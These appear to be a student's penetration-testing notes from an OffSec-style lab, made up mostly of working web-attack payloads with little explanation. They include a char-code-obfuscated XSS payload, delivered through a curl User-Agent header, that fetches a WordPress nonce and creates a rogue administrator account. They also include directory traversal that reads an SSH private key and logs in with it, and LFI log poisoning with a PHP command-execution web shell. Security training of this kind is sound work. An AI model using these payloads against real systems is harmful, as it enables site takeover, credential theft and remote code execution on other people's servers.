 	-  create new admin user
		- var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
		ajaxRequest = new XMLHttpRequest();
		ajaxRequest.open("POST", requestURL, true);
		ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		ajaxRequest.send(params);
- JS Compress
	- minify
- Encode the JS
	- function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
		let encoded = encode_to_javascript('insert_minified_javascript')
		console.log(encoded)
	- Decode & execute with curl
		- ```curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
`
## Common Web Attacks
- /var/www/html
	- Web servers root directory
- Directory Traversal Attack
	1. curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
	2. ssh -i dt_key -p 2222 offsec@mountaindesserts.co
- Local File Inclusion (LFI)
	- Example 1
		- curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
		- <?php echo system($_GET['cmd']); ?>
		- ../../../../../../../../../var/log/apache2/access.log
		- - ../../../../../../../../../var/log/apache2/access.log&cmd=ps
	- URL Encoding ---> Space = %20